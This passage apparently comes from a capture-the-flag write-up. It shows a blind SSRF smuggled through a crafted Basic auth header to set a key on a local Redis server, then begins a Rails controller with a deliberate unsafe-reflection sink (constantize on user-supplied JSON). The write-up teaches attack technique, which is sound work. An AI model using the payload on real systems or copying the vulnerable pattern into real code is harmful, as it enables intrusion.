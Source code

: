 We only have a blind SSRF and [Redis now aliases `Host` as the `QUIT` command](https://github.com/redis/redis/commit/a81a92ca2ceba364f4bb51efde9284d939e7ff47), but you can use the `SET` command to create a new command.
The following decoded basic auth header and request demonstrates creating a new key (`/hacker-user`) where the value would be `HTTP/1.1` by setting the request method to `SET`.

*decoded `Authorization: Basic`*
```go
"mr:fatmonke@127.0.0.1:6379/hacker-user#\n"
```

```http
SET / HTTP/1.1
Host: 127.0.0.1:1337
Authorization: Basic bXI6ZmF0bW9ua2VAMTI3LjAuMC4xOjYzNzkvaGFja2VyLXVzZXIjCg==
User-Agent: curl/7.81.0
Accept: */*
Connection: keep-alive
Content-Length: 0


```

*Confirmation that the new key was created on the redis server*
```
127.0.0.1:6379> get /hacker-user
"HTTP/1.1"
```
 
# Part 2: `mysql` gem unsafe reflection

This section is a follow up to [this article I wrote about unsafe Ruby reflection](https://www.elttam.com/blog/rails-sqlite-gadget-rce/), where the article showcases using the `sqlite3` gem to achieve RCE if there is an unsafe reflection or deserialisation vuln in an application.

Similar to the above article, there is a single controller that is shown below that has an unsafe reflection sink. The goal is to read the flag from the MariaDB database in the container.

```ruby
require 'redis'
require 'json'

class MainController < ApplicationController
  include ActionController::HttpAuthentication::Basic::ControllerMethods

  before_action :authenticate

  def lol_what_could_go_wrong
    if !@authenticated
      request_http_basic_authentication
      return
    end

    config_file = params[:config]
    config_hash = JSON.load_file(config_file)
    config_hash["type"].constantize.new(config_hash["arg"])
    render json: {success: true}
  end

  def req_params
    params.require(:config)
  end

  def authenticate
    authenticate_with_http_basic do |u, p|
      redis = Redis.new(host: "127.0.0.1", port: 6379)
```